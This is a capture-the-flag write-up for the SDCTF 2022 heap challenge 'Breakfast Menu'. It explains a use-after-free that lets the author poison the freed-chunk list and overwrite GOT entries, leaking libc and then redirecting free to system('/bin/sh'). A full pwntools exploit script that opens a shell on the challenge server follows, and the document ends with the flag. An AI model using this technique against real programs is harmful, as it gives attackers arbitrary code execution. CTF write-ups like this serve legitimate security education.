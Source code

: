 ```yaml
---
title: "[Pwn] Breakfast Menu [SDCTF 2022]"
date: 2022-05-09 18:51:00
---
```


# 0x0 Introduction

Medium

I’m awfully hungry, with all these options to choose from, what should I order?

Connect

nc breakfast.sdc.tf 1337

By green beans

files: [BreakfastMenu](BreakfastMenu)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

In short, binary have a Use-After-Free (UAF) vulnerability. Allow us to edit the heap after we free the heap. 

Moreover, the dangling pointers are global variable. Therefore we can utilze the single linked list in heap and do a write on the address we want.

The basic idea of this challenge is first replace `free` with `puts` to leak libc address, then replace `free` with `system`, call `system("/bin/sh")` to get shell

1. malloc malloc free free to create a single linked list in heap
2. edit obj.orders[1], write address of obj.orders in it
3. malloc malloc. now obj.orders[2] point to a heap, obj.order.[3] point to obj.orders[0]
4. edit order[2], write `/bin/sh\x00` into the heap
5. edit order[3] to got.free => obj.orders[0] will change to got.free
6. edit obj.orders[0] to got.puts, this replace function `free` with function `puts`
7. edit obj.orders[3] to got.printf
8. free(obj.orders[0]) this will call puts(got.printf) and leak libc address
9. edit obj.orders[3] to got.free, then edit obj.orders[0], replace `free` with `system`
10. free(obj.orders[2]), this will call `system("/bin/sh")` and give us a shell.

# 0x3 Exploit

```python
from pwn import *

exe = ELF("BreakfastMenu_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("breakfast.sdc.tf", 1337)
    return r


io = start()

# make one heap pointer point to obj.orders
io.sendlineafter(b"leave\n",b'1')
io.sendlineafter(b"leave\n",b'1')

io.sendlineafter(b"leave\n",b'3')
io.sendlineafter(b"remove\n",b'0')

io.sendlineafter(b"leave\n",b'3')
io.sendlineafter(b"remove\n",b'1')

print("got.free, got.puts",hex(exe.got["free"]))

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'1')
io.sendlineafter(b"order?\n",flat([exe.symbols["orders"]]))

io.sendlineafter(b"leave\n",b'1')
io.sendlineafter(b"leave\n",b'1')

# obj.orders[0] = exe.got["free"]

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'2')
io.sendlineafter(b"order?\n",b"/bin/sh\x00")

# obj.orders[0] = exe.got["free"]

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'3')
io.sendlineafter(b"order?\n",flat([exe.got["free"]]))

# exe.got["free"] = exe.sym["puts"]

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'0')
io.sendlineafter(b"order?\n",flat([b'AAAAA\x00']))

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'0')
io.sendlineafter(b"order?\n",flat([b'AAAA\x00']))

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'0')
io.sendlineafter(b"order?\n",flat([exe.sym["puts"]]))

# obj.orders[0] = exe.got["printf"]

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'3')
io.sendlineafter(b"order?\n",flat([exe.got["printf"]]))

# free(obj.orders[0]) => puts(obj.orders[0])

io.sendlineafter(b"leave\n",b'3')
io.sendlineafter(b"remove\n",b'0')
libc.address = int.from_bytes(io.recvuntil(b'\n1. ',drop=True),"little") - libc.sym["printf"]
print("libc leak",hex(libc.address))

# obj.orders[0] = exe.got["free"]

io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'3')
io.sendlineafter(b"order?\n",flat([exe.got["free"]]))

# exe.got["free"] = libc.sym["system"]
io.sendlineafter(b"leave\n",b'2')
io.sendlineafter(b"modify\n",b'0')
io.sendlineafter(b"order?\n",flat([libc.sym["system"]]))

# free(obj.orders[2]) => system("/bin/sh")

io.sendlineafter(b"leave\n",b'3')
io.sendlineafter(b"remove\n",b'2')
io.interactive()

```

# 0x4 Flag

sdctf{Th3_m05t_1Mp0Rt4nT_m34L_0f_th3_d4Y}